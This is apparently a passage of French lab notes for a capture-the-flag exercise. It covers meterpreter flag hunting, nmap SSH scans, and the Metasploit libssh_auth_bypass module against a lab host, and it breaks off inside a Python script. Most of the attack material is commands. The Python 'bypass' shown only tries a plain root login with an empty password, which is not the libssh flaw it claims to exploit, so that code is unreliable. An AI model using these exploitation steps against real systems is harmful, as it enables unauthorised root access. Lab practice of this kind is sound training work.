 ```bash
# Navigation pour flags (exemple lab)
meterpreter > cd /
meterpreter > ls
meterpreter > cat flag.txt                    # Flag 1

meterpreter > cd /opt/apache/htdocs/
meterpreter > ls -la
meterpreter > cat .flag.txt                   # Flag 2 (fichier caché)
```

---

## 🔐 12. Exploitation libssh_auth_bypass (SSH System Access)

### Détection de vulnérabilité libssh
```bash
# Scan SSH spécifique
nmap -p 22 -sV <target>
nmap --script ssh* -p 22 <target>

# Détection de versions vulnérables
nmap --script ssh-auth-methods,ssh2-enum-algos -p 22 <target>
```

### Exploitation avec Metasploit (Méthode Lab)
```bash
# Module d'exploitation libssh
msfconsole -q
use exploit/linux/ssh/libssh_auth_bypass
set RHOSTS target2.ine.local
set SPAWN_PTY true
run

# Interaction avec la session
sessions -l
sessions -i <session_id>

# Navigation immédiate
pwd
whoami
id

# Recherche Flag 3 (home directory)
cd /home/user
ls -la
cat flag.txt
```

### Script Python manuel pour libssh bypass
```python
#!/usr/bin/env python3
import paramiko
import sys

def libssh_bypass(host, port=22):
    try:
        ssh = paramiko.SSHClient()
        ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        
        # Bypass authentication
        ssh.connect(host, port=port, username='root', password='', 
                   auth_timeout=1, banner_timeout=1)
```